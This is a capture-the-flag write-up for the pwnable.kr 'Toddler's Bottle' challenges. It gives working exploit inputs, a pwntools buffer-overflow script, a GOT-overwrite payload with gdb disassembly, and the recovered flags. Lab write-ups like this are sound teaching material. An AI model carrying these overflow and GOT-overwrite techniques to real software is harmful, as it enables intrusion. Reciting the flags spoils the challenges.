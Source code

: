 # Toddler's Bottle

## fd
use 4660 as argument(-> fd = 4660 - 0x1234 = 0 = stdin)
and then enter 'LETMEWIN'  
**Flag**  
mommy! I think I know what a file descriptor is!!

## collision
We need to insert string the when sum up as integer will equal to 
Choose one of the input from the output of this [python script](https://gist.github.com/bom2013/63ec0bc880f6a82e775d9dce7a2358fe), for example the generated arg for 'P' letter
```bash
col@pwnable:~$ python3 /tmp/collision_arg_generator.py
....
-----
Test P
Oh yeh!
0x50505050 0x50505050 0x50505050 0x50505050 0xe09bc8ac
...
col@pwnable:~$ ./col `printf "PPPPPPPPPPPPPPPP\xac\xc8\x9b\xe0"`
```  
**Flag**  
daddy! I just managed to create a hash collision :)

## bof
Simple buffer overflow, I try to do it directedly from the shell without success, so do it with python `pwntools` lib
```python
from pwn import *

message = 'a'*52 + "\xbe\xba\xfe\xca"
nc = remote("pwnable.kr",9000)
nc.send(message)
nc.interactive()
```  
**Flag**  
daddy, I just pwned a buFFer :)

## flag
Use 'strings' to search which packer -> UPX  
Use 'upx -d flag' to unpack  
Use 'string' to find the flag  
**Flag**  
UPX...? sounds like a delivery service :)


## passcode
When gcc the file get warning about pass 'int' and not 'int *'  
This means writing to a value that is in the variable 'passcode1'-> Junk seemingly  
Is there a way to change it before we get there and thus write to the good place?  
In the "welcome" function(Which performed before login function) we write to 'name', by using gdb you see the location of **'name'** variable in the stack:
```shell
(gdb) disas welcome
Dump of assembler code for function welcome:
   ...
   0x0804862f <+38>:    lea    -0x70(%ebp),%edx
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
   ...
End of assembler dump.
```
-> &name = ebp-0x70  
welcome and login using the same stack...  
lets see the location of **'passcode1'** in the stack using gdb:
```shell
(gdb) disas login
Dump of assembler code for function login:
   ...
   0x0804857c <+24>:    mov    -0x10(%ebp),%edx
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
   ...
End of assembler dump.
```
-> &passcode1 = ebp-0x10  
-> the distance between them is 0x70-0x10 = 96, we can write 100 -> we can overwrite 4 byte of passcode1 -> Yoo!  
What will we write? We want to put a value of a place in the memory that we then jump from, Fortunately we have a call to the **fflush** function that is not executed directly but through the plt mechanism so we have a jump:
```shell
(gdb) disas fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:     jmp    *0x804a004
   0x08048436 <+6>:     push   $0x8
   0x0804843b <+11>:    jmp    0x8048410
End of assembler dump.
```
So if we put the value 0x804a004 in passcode before we get input to him, when we will get the the point we put input we can insert the address we want the program to jump to.  
Lets find this address using gdb:
```shell
(gdb) disas login
Dump of assembler code for function login:
   ...
   0x080485e3 <+127>:   movl   $0x80487af,(%esp)   # "/bin/cat flag"
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   ...
End of assembler dump.
```
So, we will put 96 garbage chars and than 0x0804a004 to **'name'** and then enter 0x080485e3 to passcode1:
```shell
passcode@pwnable:~$ python -c "print 'A'*96 + '\x04\xa0\x04\x08' + str(int('0x080485e3', 16))" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```  
**Flag**  
Sorry mom.. I got confused about scanf usage :(
